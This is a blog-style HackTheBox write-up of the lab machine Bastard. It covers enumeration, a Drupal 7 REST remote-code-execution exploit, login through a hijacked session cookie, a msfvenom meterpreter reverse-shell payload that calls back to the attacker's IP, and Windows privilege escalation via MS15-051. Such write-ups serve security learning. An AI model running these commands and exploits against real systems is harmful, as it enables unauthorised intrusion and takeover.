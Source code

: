 ```yaml
---
layout: post
title: HTB - Bastard Writeup
date: 2019-11-11
image: '/images/posts/htb/bastard/bastard.jpg'
categories: ["writeups"]
tags: ["writeups", "bastard", "htb"]
---
```


* Box: Bastard
  - Difficulty: Medium
  - Points: 30
  - Release: 18 Mar 2017
  - IP: 10.10.10.9


### Initial Enumeration

#### 1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA bastard.nmap 10.10.10.9`

<img src="/images/posts/htb/bastard/bastard1.jpg">

The nmap reveals an IIS server as well as Windows RPC.

Loading up the website we see that the IIS server is running Drupal:

<img src="/images/posts/htb/bastard/bastard2.jpg">

We can find the Drupal version by browsing to ``10.10.10.9/CHANGELOG.txt``

<img src="/images/posts/htb/bastard/bastard3.jpg">

In the meantime, we will run a gobuster scan to find any more directories:

#### 2. Gobuster Scanning

```
gobuster dir -u http://10.10.10.9/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -k
```

We see a directory called `/rest` which will come in handy for the next step:


### Exploitation

Searching for exploits, we see the following in our searchsploit command: [Exploit-DB 41564](https://www.exploit-db.com/exploits/41564/)

<img src="/images/posts/htb/bastard/bastard4.jpg">

This will exploit a remote code execution vulnerability in Drupal 7.x. We'll need to modify the code bit for it to run successfully.

Basically, this will attack the REST endpoint created by the services extension. Because we have the pre-made script already, we just ened to find out the name of the REST endpoint. As previously mentioned, our gobuster scan found the `/rest` directory.

We will need to modify our exploit.
The exploit needs rest api path which we found in our directory enumeration so we set our endpoint path to /rest.

```
$url = 'http://10.10.10.9';                                                     
$endpoint_path = '/rest';
```

By running this exploit we got two files user.json and session.json.

We can use sessions.txt data to login as administrator which we got through running exploit.

sessions.txt
```
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "li1-xoDBXCgxKg0rI9tn3pS6CsfJaQKwEjARmfxlxa0",
    "token": "2dnjgeee6Cy5hRPikPeogGjbxqqgdKeyEo2v32d-jEU"
}
```


Now let’s go to http://10.10.10.9/admin

<img src="/images/posts/htb/bastard/bastard5.jpg">

`Cookie: has_js=1; Drupal.toolbar.collapsed=0``

<img src="/images/posts/htb/bastard/bastard6.jpg">


We have to modify the cookie in this format.
```
Cookie: session_name=session_id;token
```

<img src="/images/posts/htb/bastard/bastard7.jpg">

Once you have access to administration panel go to Modules and enable PHP filter so we can get reverse shell.

<img src="/images/posts/htb/bastard/bastard8.jpg">


## Privilege Escalation

Now we have user access we have to use exploit suggester module in order to obtain more information regarding the box.

We have a user session via php shell let’s switch to actual reverse shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=1338 -f exe > shell.exe
```

<img src="/images/posts/htb/bastard/bastard9.jpg">

By using exploit suggester we got few exploits which i tested and one of them worked.

```
use exploit/windows/local/ms15_051_client_copy_image
```
<img src="/images/posts/htb/bastard/bastard10.jpg">

And now we are NT Authority.

<img src="/images/posts/htb/bastard/bastard11.jpg">

The root flag is located:
**C:\Users\Administrator\Desktop\root.txt**

User flag is:
**C:\Users\dimitris\Desktop\user.txt**
